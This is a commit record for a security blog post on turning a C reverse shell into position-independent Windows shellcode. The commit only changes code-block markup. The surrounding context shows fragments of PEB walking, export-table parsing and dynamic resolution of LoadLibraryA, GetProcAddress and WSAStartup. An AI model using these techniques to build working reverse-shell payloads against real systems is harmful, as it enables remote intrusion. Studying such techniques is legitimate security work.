

Before and after one commit to 0xEct0/0xEct0.github.io, a Jekyll site: the page built from _posts/2024-07-28-shellcoding-rev-shell-from-c.md, in a window 1280 px wide and 1400 px high, scrolled down 5673 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
added syntax highlighting

````diff
--- a/_posts/2024-07-28-shellcoding-rev-shell-from-c.md
+++ b/_posts/2024-07-28-shellcoding-rev-shell-from-c.md
@@ -41,7 +41,7 @@ Once the head of a linked list of either module list has been acquired, the func
 
 ![peb_module_lookup.png](https://raw.githubusercontent.com/0xEct0/0xEct0.github.io/main/assets/img/peb_module_lookup.png)
 
-{% raw %}
+```c
 inline LPVOID get_module_by_name( wchar_t* module_name )
 {
     // w// printf( L"[*] Finding address of module: %ls\n", module_name );
@@ -126,13 +126,13 @@ inline LPVOID get_module_by_name( wchar_t* module_name )
     // printf( "[+] Error?\n" );
     return return_module;
 }
-{% endraw %}
+```
 
 Once the base address of a DLL has been obtained by traversing the PEB as described in the previous section, the next step in refactoring code to become position independent is the creation of a function that will get the absolute address of a function that resides within that module/DLL. This process is important for executing specific functionalities without the need for using relative addresses, meaning this would enable the program to execute from anywhere in memory.
 
 Starting from the base address of the DLL, the function would need to parse the DLL's internal structures to find the function of interest which starts with the Portable Executable (PE) header which can be accessed directly from the DLL's base address. The PE header is an array that includes various directories but the index of interest is the one in the first index which is the Export Table. This table lists all the functions that the DLL exports along with their names and relative addresses. Once access to the Export Table has been successfully found, the code would then have to traverse through the list of exported functions where each entry in the Export Table includes the function's name and an offset from the DLL's base address. Upon comparison of the parsed function's name and the function name the code is looking for, calculation of the absolute address needs to be done by getting the offset and adding it to the base address of the DLL. Once the calculation has been completed, the code should then return the absolute address of that function which means the program can now directly call the Windows API function from anywhere in memory. The following below is the code to do this, along with a graphical representation of traversing internal structures to get to the Exports Table.
 
-{% raw %}
+```c
 //
 // This function gets the function address from the module
 //
@@ -253,7 +253,7 @@ inline LPVOID get_func_by_name( LPVOID module, char* function_name )
 
     return return_address;
 }
-{% endraw %}
+```
 
 ![Untitled](https://raw.githubusercontent.com/0xEct0/0xEct0.github.io/main/assets/img/export_table.png)
 
@@ -271,7 +271,7 @@ These APIs will allow us to load other DLLs even if not loaded by the resulting
 
 
 
-{% raw %}
+```c
 
     char get_proc_addr[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '\0' };
 
@@ -303,13 +303,13 @@ These APIs will allow us to load other DLLs even if not loaded by the resulting
         // printf( "[!] LoadLibraryA or GetProcAddress could not be resolved!\n" );
         return 1;
     }
-{% endraw %}
+```
 
 ## Position Independent Code for a Reverse Shell
 
 Once we’ve dynamically resolved those two functions, we can load other modules and API’s that reside within that module. For example, for reverse shell/network operations, we’ll use APIs within `ws2_32.dll` . Here’s how we can get the address of that DLL, along with `WSAStartup()` which is an API function needed for network operations.
 
-{% raw %}
+```c
     //
     // Get address of ws2_32.dll
     //
@@ -345,7 +345,7 @@ Once we’ve dynamically resolved those two functions, we can load other modules
         // printf( "[+] Could not dynamically resolve _WSAStartup!\n" );
         return 1;
     }
-{% endraw %}
+```
 
 In the case of `WSAStartup`, we use a similar approach as with `GetProcAddress` and `LoadLibraryA`  to dynamically resolve the function's address:
 
@@ -355,7 +355,7 @@ In the case of `WSAStartup`, we use a similar approach as with `GetProcAddress`
 
 This process can be repeated to essentially refactor code to be position independent. The follow code below is from [https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html) which shows how to program a reverse shell in C/C++.
 
-{% raw %}
+```c
 //
 // code inspired from https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html
 //
@@ -403,11 +403,11 @@ int main(int argc, char* argv[])
 
     return 0;
 }
-{% endraw %}
+```
 
 We can refactor all of the WinAPIs used in the above code to become position indepent, similar to the example above with `WSAStartup`. Below is the code that’s been refactored to be position independent (final code, along with the header file containing the PEB structures can be found on my github here: https://github.com/0xEct0/Shellcode-Generate/blob/main/code_templates/rev_shell.c )
 
-{% raw %}
+```c
 #include <stdio.h>
 #include <winsock2.h>
 #include <windows.h>
@@ -1002,8 +1002,7 @@ inline LPVOID get_func_by_name( LPVOID module, char* function_name )
 
     return return_address;
 }
-
-{% endraw %}
+```
 
 ## From PIC to Shellcode
 
````
Also changed, not shown: _posts/2024-07-28-test.md (deleted, +0 -6 lines).
